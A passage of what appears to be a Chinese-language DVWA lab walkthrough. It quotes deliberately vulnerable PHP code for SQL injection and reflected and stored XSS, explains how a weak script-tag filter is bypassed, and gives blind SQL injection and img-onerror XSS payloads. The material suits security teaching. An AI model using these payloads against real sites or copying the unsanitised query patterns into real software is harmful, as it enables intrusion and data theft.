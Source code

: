 这里也是同样的为字符型注入，id参数未做任何转义处理，直接写入sql查询

```
payload: 1' and ascii(substr(database(),1,1)) <101 #
```

#### XSS（ Reflected）

```php
<?php

// Is there any input?
if( array_key_exists( "name", $_GET ) && $_GET[ 'name' ] != NULL ) {
    // Get input
    $name = preg_replace( '/<(.*)s(.*)c(.*)r(.*)i(.*)p(.*)t/i', '', $_GET[ 'name' ] );

    // Feedback for end user
    echo "<pre>Hello ${name}</pre>";
}

?>
```

这里函数用正则表达式的搜索和替换，这使得双写绕过、大小写混淆绕过（正则表达式中i表示不区分大小写）不再有效绕过了`<script>`标签，虽然无法使用`<script>`标签注入XSS代码，但是可以通过img、body等标签的事件或者iframe等标签的src注入恶意的js代码

```
payload : <img src="1" onerror="alert('xss')">
```

#### XSS（Stored）

```php
<?php 
if( isset( $_POST[ 'btnSign' ] ) ) { 
    // Get input 
    $message = trim( $_POST[ 'mtxMessage' ] ); 
    $name    = trim( $_POST[ 'txtName' ] ); 
    // Sanitize message input 
    $message = strip_tags( addslashes( $message ) ); 
    $message = mysql_real_escape_string( $message ); 
    $message = htmlspecialchars( $message ); 
    // Sanitize name input 
    $name = preg_replace( '/<(.*)s(.*)c(.*)r(.*)i(.*)p(.*)t/i', '', $name ); 
    $name = mysql_real_escape_string( $name ); 
    // Update database 
    $query  = "INSERT INTO guestbook ( comment, name ) VALUES ( '$message', '$name' );"; 
    $result = mysql_query( $query ) or die( '<pre>' . mysql_error() . '</pre>' ); 
    //mysql_close(); 
} 
?>
```

同反射型xss一致，在name处可以使用img标签注入xss代码,不过在前端name处设置了最大字符长度，所以使用burp抓包注入xss代码

```
payload: <img src="1" onerror="alert('xss')">
```

